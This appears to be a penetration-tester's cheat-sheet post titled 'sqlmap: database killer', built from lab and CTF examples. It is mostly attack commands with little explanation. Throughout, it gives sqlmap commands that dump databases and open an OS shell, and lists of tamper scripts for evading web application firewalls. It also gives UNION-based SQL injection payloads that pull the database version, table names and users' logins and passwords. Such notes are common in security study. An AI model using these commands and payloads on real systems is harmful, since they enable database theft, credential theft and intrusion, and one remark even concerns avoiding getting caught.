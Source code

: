 ```yaml
---
layout: post
title: sqlmap
description: database killer 
date: 2022-04-09
---
```


```
sqlmap -r report.req --dbms=mysql --technique=U --dbms mysql --level 5 --risk 3 -p id --dump

-r is the file name
--dbms is the database type
--technique is the type - U is union
-p is the parameter, in this case the parameter that is vulnerable is id
--level checks everything, user agents, cookies, all parameters
--risk will blow up how much traffic you generate and might get you caught
```

#### sqlmap post params
See the request below? Add it to a text file and save whatever request you are attempting to exploit

then

select which parameter - in this parameter, the post requests you can check user, admin, and pass

so, if you wanna check user parameter, do this
```
sqlmap -r this-filename.txt -p user
```
or if you wanna check the pass field, do this
```
sqlmap -r this-filename.txt -p pass
```
Example
```
POST /?page=login HTTP/1.1
Host: 10.10.10.76

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.76/?page=login
Cookie: PHPSESSID=81uqq56dr9jb3o35qa2jdv0u61
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

user=admin&pass=admin&submit=Login
```
**********

### MySQL tampering
```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
MSSQL tampering
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
General Tampering
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

* * *

```
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner

sqlmap -r /root/Desktop/request.txt -p --user agent

sqlmap -u http://5.sqli.labs -p user-agent --random-agent --banner --tamper=randomcase,space2comment,apostrophemask,informationschemacomment
```

### Payloads
```
IP-address/cat.php?id=1 UNION SELECT 1,@@version,3,4--

IP-address/cat.php?id=1 UNION SELECT 1,database(),3,4--

IP-address/cat.php?id=1 UNION SELECT 1,current_user(),3,4--

IP-address/cat.php?id=1 UNION SELECT 1,@@datadir,3,4--

IP-address/cat.php?id=1 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()--

IP-address/cat.php?id=1 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name="users"--

IP-address/cat.php?id=1 UNION SELECT 1,group_concat(id,0x3a,login,0x3a,password),3,4 FROM photoblog.users--
```

### Copy POST request from burp and run with it

`sqlmap -r request.txt --dbms=mysql --dump`

### sqlmap crawl

`sqlmap -u http://172.21.0.0 --crawl=1`

### sqlmap dump database

`sqlmap -u http://172.21.0.0 --dbms=mysql --dump`

### sqlmap shell

`sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell`
